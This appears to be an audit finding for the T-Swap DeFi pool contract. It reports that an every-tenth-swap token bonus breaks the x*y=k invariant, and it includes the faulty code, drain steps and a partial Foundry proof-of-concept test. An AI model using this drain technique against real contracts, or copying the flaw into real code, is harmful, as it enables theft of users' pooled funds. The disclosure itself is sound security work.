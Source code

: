 https://github.com/Cyfrin/2024-06-t-swap/blob/d1783a0ae66f4f43f47cb045e51eca822cd059be/src/TSwapPool.sol#L397C1-L401C10

## Description: The protocol follows a strict invariant of `x * y = k`. Where:

- `x`: The balance of the pool token
- `y`: The balance of WETH
- `k`: The constant product of the two balances

This means, that whenever the balances change in the protocol, the ratio between the two amounts should remain constant, hence the `k`. However, this is broken due to the extra incentive in the `_swap` function. Meaning that over time the protocol funds will be drained.

The follow block of code is responsible for the issue.

```javascript
swap_count++;
if (swap_count >= SWAP_COUNT_MAX) {
  swap_count = 0;
  outputToken.safeTransfer(msg.sender, 1_000_000_000_000_000_000);
}
```

## Impact:

A user could maliciously drain the protocol of funds by doing a lot of swaps and collecting the extra incentive given out by the protocol.

Most simply put, the protocol's core invariant is broken.

## Proof of Concept:

1. A user swaps 10 times, and collects the extra incentive of `1_000_000_000_000_000_000` tokens
2. That user continues to swap untill all the protocol funds are drained

## Proof Of Code

Place the following into `TSwapPool.t.sol`.

```javascript

    function testInvariantBroken() public {
        vm.startPrank(liquidityProvider);
        weth.approve(address(pool), 100e18);
        poolToken.approve(address(pool), 100e18);
        pool.deposit(100e18, 100e18, 100e18, uint64(block.timestamp));
        vm.stopPrank();

        uint256 outputWeth = 1e17;

        vm.startPrank(user);
        poolToken.approve(address(pool), type(uint256).max);
        poolToken.mint(user, 100e18);
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));
        pool.swapExactOutput(poolToken, weth, outputWeth, uint64(block.timestamp));

        int256 startingY = int256(weth.balanceOf(address(pool)));
        int256 expectedDeltaY = int256(-1) * int256(outputWeth);
```